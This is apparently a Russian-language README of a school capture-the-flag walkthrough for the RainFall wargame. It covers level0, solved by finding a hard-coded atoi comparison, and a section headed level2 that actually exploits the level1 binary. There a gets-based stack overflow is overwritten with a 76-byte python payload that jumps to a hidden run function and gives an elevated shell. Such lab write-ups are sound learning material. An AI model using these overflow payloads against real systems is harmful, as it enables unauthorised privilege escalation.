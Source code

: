 # Решаю RainFall
Это школьный проект. Нам дается образ ubuntu-32, там 12 юзеров, дается пароль от первого. в директории каждого юзера есть файл принадлежащий следующему юзеру. Нужно найти уязвимость, проэкплуатировать, чтоб прочитать файл с паролем

## level0

```
level0@RainFall:~$ ll
total 737
dr-xr-x---+ 1 level0 level0     60 Mar  6  2016 ./
dr-x--x--x  1 root   root      340 Sep 23  2015 ../
-rw-r--r--  1 level0 level0    220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level0 level0   3530 Sep 23  2015 .bashrc
-rwsr-x---+ 1 level1 users  747441 Mar  6  2016 level0*
-rw-r--r--  1 level0 level0    675 Apr  3  2012 .profile
```

Запускем бинарь level0

```
level0@RainFall:~$ ./level0
Segmentation fault (core dumped)
level0@RainFall:~$ ./level0 123
No !
```

Окей, запускаемся под ```gdb``` и дизассемблим ```main```.

Сразу переключаюсь на интеловский синтаксис: ```set disassembly-flavor intel```

Весь листинг прикреплять не буду, только самый интересный кусок:

```
0x08048ed4 <+20>:	call   0x8049710 <atoi>
0x08048ed9 <+25>:	cmp    eax,0x1a7
0x08048ede <+30>:	jne    0x8048f58 <main+152>
```

Видим вызов ```atoi```, результат ее работы сравнивается с ```0x1a7``` и условный прыжок. 

Запускаем бинарь с нужным аргументом:

```
level0@RainFall:~$ ./level0 423
$ id
uid=2030(level1) gid=2020(level0) groups=2030(level1),100(users),2020(level0)
$
```
Первый уровень пройден ;)

## level2

Бинарь ждет пользовательский ввод. Сразу запускаюсь под ```gdb```:

```
(gdb) run
Starting program: /home/user/level1/level1
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```

Программа падает! Ура! Мы перетёрли своей строкой адрес возврата.
Перебором нащупываю ```76``` байт до адреса возврата.

```
(gdb) run
Starting program: /home/user/level1/level1
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab

Program received signal SIGSEGV, Segmentation fault.
0x62616161 in ?? ()
```

Далее смотрю какие функции есть в бинаре:

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
...
0x08048444  run
0x08048480  main
...
```

Интересно, что за функция ```run```. Готовим нагрузку:

```bash
level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/payload
level1@RainFall:~$ cat /tmp/payload - | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
```

pwned! го дальше :)
